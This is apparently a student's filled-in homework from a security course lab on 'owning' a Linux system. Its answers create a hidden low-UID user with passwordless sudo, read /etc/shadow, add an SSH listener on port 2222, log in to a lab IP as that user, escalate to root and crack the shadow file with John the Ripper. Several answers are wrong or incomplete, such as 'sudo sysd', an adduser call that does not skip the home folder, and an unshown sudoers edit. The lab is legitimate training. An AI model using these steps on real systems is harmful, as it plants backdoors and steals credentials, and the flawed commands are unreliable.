










## Advanced Bash - Owning the System
Please edit this file by adding the solution commands on the line below the prompt.
Save and submit the completed file for your homework submission.
## Step 1: Shadow People
Create a secret user named sysd. Make sure this user doesn't have a home folder created:
Your solution command here

- *sudo adduser sysd*

Give your secret user a password:
Your solution command here

- *sudo passwd sysd*

Give your secret user a system UID < 1000:
Your solution command here

- *sudo usermod -u 160 sysd*

Give your secret user the same GID:
Your solution command here

- *sudo groupmod -g 100 sysd*

Give your secret user full sudo access without the need for a password:
Your solution command here

- *sudo visudo*

Test that sudo access works without your password:
Your bash commands here
- *sudo sysd*
- *sudo cat /etc/shadow*

### Step 2: Smooth Sailing

Edit the sshd_config file: sudo nano sshd_config
Your bash commands here
- *Port 22*
  *Port 2222*

  

### Step 3: Testing Your Configuration Update

Restart the SSH service:
Your solution command here

- *service ssh restart*

Exit the root account:
Your solution command here

- *exit*

SSH to the target machine using your sysd account and port 2222:
Your solution command here

- *ssh sysd@192.168.6.105 -p 2222*

Use sudo to switch to the root user:
Your solution command here

- *sudo su*

### Step 4: Crack All the Passwords

SSH back to the system using your sysd account and port 2222:
Your solution command here

- *ssh sysd@192.168.6.105 -p 2222*

Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
Your solution command here

- *john shadowaf*

